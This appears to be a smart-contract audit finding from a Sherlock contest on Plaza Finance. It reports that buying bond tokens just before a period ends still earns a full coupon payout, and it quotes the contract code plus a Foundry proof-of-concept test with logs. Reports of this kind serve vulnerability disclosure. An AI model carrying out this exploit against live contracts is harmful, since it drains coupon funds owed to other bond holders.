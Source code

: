 Hidden Tiger Carp

High

# A malicious attacker can steal coupon tokens from Plaza

### Summary

A malicious attacker can steal coupon tokens from Plaza.
It is possible to invest funds for a short time and gain a profit.
In Plaza, bond token holders receive $2.5 USD every quarter.
Therefore, a malicious attacker purchases bond tokens on the last day of the current period.
Once the next period starts, they claim the coupon tokens and sell the bond tokens.
The malicious attacker then obtains coupon tokens in just two days.


### Root Cause

The malicious attacker can receive coupon tokens in the next period even if they purchase bond tokens on the last day of the current period.

**Distributor.sol**
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Distributor.sol#L78
```solidity
function claim() external whenNotPaused nonReentrant {
  '''
  (uint256 currentPeriod,) = bondToken.globalPool();
  uint256 balance = bondToken.balanceOf(msg.sender);
  uint256 shares = bondToken.getIndexedUserAmount(msg.sender, balance, currentPeriod)
                            .normalizeAmount(bondToken.decimals(), IERC20(couponToken).safeDecimals());

  '''
}
```

**BondToken.sol**
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/BondToken.sol#L190
```solidity
function getIndexedUserAmount(address user, uint256 balance, uint256 period) public view returns(uint256) {
  IndexedUserAssets memory userPool = userAssets[user];
  uint256 shares = userPool.indexedAmountShares;

  for (uint256 i = userPool.lastUpdatedPeriod; i < period; i++) {
    shares += (balance * globalPool.previousPoolAmounts[i].sharesPerToken).toBaseUnit(SHARES_DECIMALS);
  }

  return shares;
}
```


### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

In Plaza, bond token holders receive $2.5 USD per quarter, and let's assume each period is 90 days.

1. A malicious attacker purchases bond tokens on the 89th day of the current period.
2. Once the next period starts, they claim the coupon tokens.
3. They sell all of the purchased bond tokens.
4. The malicious attacker then obtains coupon tokens in just two days.


### Impact

Such an attack can steal Plaza's coupon tokens, preventing other bond token holders from receiving their coupon tokens.


### PoC

test/Distributor.t.sol

```solidity
function testClaimShares() public {
  //--------- period:0 ---------
  (uint256 currentPeriod,) = _pool.bondToken().globalPool();
  console.log("current period : ", currentPeriod);

  Token sharesToken = Token(_pool.couponToken());

  vm.startPrank(address(_pool));
  sharesToken.mint(address(_pool), 50*(1+10000)*10**18);
  vm.stopPrank();

  vm.startPrank(governance);
  fakeSucceededAuction(address(_pool), 0);

  vm.mockCall(
    address(0),
    abi.encodeWithSignature("state()"),
    abi.encode(uint256(1))
  );

  vm.mockCall(
    address(0),
    abi.encodeWithSignature("totalBuyCouponAmount()"),
    abi.encode(uint256(50*(1+10000)*10**18))
  );
  vm.stopPrank();

  //--------- period:1 ---------
  vm.startPrank(governance);
  // increase indexed asset period - this is done by Pool when Auction starts but its mocked on this test
  _pool.bondToken().increaseIndexedAssetPeriod(params.sharesPerToken);
  (currentPeriod,) = _pool.bondToken().globalPool();
  console.log("current period : ", currentPeriod);
  _pool.distribute();
  vm.stopPrank();

  //create bondToken after 89 days(end of period)
  vm.warp(block.timestamp + 89 days);

  vm.startPrank(address(_pool));
  _pool.bondToken().mint(user, 1*10**18);
  vm.stopPrank();

  //--------- period:2 ---------
  //A new period starts.
  vm.warp(block.timestamp + 91 days);

  vm.startPrank(address(_pool));
  // increase indexed asset period - this is done by Pool when Auction starts but its mocked on this test
  _pool.bondToken().increaseIndexedAssetPeriod(params.sharesPerToken);
  (currentPeriod,) = _pool.bondToken().globalPool();
  console.log("current period : ", currentPeriod);
  vm.stopPrank();

  vm.startPrank(user);
  distributor.claim();
  console.log("user - sharesToken: ", sharesToken.balanceOf(user));
  vm.stopPrank();
}

Logs:
  current period :  0
  pool address 0x0000000000000000000000000000000000000004
  current period :  1
  current period :  2
  user - sharesToken:  50000000000000000000
```

### Mitigation

_No response_